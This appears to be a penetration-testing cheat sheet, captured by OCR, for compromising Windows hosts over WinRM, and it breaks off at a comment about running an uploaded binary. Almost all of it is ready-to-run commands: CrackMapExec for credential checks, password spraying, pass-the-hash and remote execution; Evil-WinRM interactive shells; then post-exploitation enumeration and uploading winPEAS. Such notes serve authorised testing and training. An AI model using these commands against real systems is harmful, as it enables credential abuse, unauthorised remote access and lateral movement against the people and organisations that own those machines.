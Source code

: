Validate credentials/hashes with CrackMapExec
```
# Check a single credential
cme winrm <TARGET> -u 'Administrator' -p 'Passw0rd!'

# Domain user
cme winrm <TARGET> -d 'corp.local' -u 'john.doe' -p 'Summer2024!'

# Password spraying
cme winrm <TARGET> -u users.txt -p 'Winter2024!' --continue-on-success

# With NTLM hash (LM:NT format; LM can be aad3b435b51404eeaad3b435b51404ee if unknown)
cme winrm <TARGET> -u 'Administrator' --hashes 'aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99'

# Verify command execution over WinRM
cme winrm <TARGET> -u 'Administrator' -p 'Passw0rd!' -x 'whoami'
# PowerShell mode (-X) if supported
cme winrm <TARGET> -u 'Administrator' -p 'Passw0rd!' -X 'whoami; $PSVersionTable'
```

Interactive shell with Evil-WinRM
```
# Local admin or a user allowed for Remoting (HTTP 5985)
evil-winrm -i <TARGET> -u 'Administrator' -p 'Passw0rd!'

# Domain user (more reliable than embedding domain in username)
evil-winrm -i <TARGET> -u 'john.doe' -p 'Summer2024!' -d 'corp.local'

# Over HTTPS (5986)
evil-winrm -i <TARGET> -u 'Administrator' -p 'Passw0rd!' -S -P 5986

# Pass-the-Hash (NT hash only)
evil-winrm -i <TARGET> -u 'Administrator' -H '5f4dcc3b5aa765d61d8327deb882cf99'

# Alternate username format for local accounts
evil-winrm -i <TARGET> -u '.\Administrator' -p 'Passw0rd!'
```

Within Evil-WinRM session (post-exploitation basics)
```
# Context and basic system info
whoami
whoami /groups
hostname
systeminfo

# List local admins (PowerShell)
Get-LocalGroupMember -Group 'Administrators'

# Networking
ipconfig /all
arp -a
route print

# Users and shares
net user
net localgroup
net share

# Upload/Download files (Evil-WinRM built-ins)
upload /home/kali/winPEASx64.exe C:\Users\Public\winPEASx64.exe
download C:\Windows\win.ini

# Run an uploaded binary
```
